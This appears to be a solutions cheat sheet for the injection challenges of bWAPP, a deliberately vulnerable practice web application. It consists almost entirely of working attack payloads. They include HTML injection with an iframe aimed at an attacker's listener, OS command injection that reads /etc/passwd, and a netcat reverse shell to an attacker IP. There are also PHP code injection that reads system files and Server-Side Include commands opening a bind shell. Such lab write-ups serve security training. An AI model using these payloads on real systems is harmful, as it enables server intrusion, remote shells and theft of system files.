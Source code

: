 # A1 - Injection

### HTML Injection - Reflected (GET)
htmli_get.php

```
192.168.200.150/bWAPP/htmli_get.php?firstname=%3Ch1%3EHello%3C%2Fh1%3E&lastname=%3Ch2%3EWorld%3C%2Fh2%3E&form=submit
```

### HTML Injection - Reflected (POST)

```
<h1>Hello</h1>
<h2>World</h2>
```
### HTML Injection - Stored (Blog)

Following solution taken from:

```
<div class="code"><iframe SRC="http://192.168.200.130:775" height="0" width="0"></iframe></div>
```
Attacker's machine:
```
nc -lvp 775
```

### OS Command Injection
```
127.0.0.1; cat /etc/passwd
127.0.0.1 & cat /etc/passwd
127.0.0.1 | cat /etc/passwd
127.0.0.1 && nc -vn 192.168.254.128 775 -e /bin/bash
```

Attacker's machine:
```
nc -lvp 775
```


### OS Command Injection - Blind
```
127.0.0.1 | sleep 10
```

### PHP Code Injection

```
192.168.200.130/bWAPP/phpi.php?message=a;echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
```

### Server-Side Includes:

```
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
<!--#exec cmd="nc -lvp 775 -e /bin/bash" -->
Attacker's machine:
```
nc -nv 192.168.200.150 775









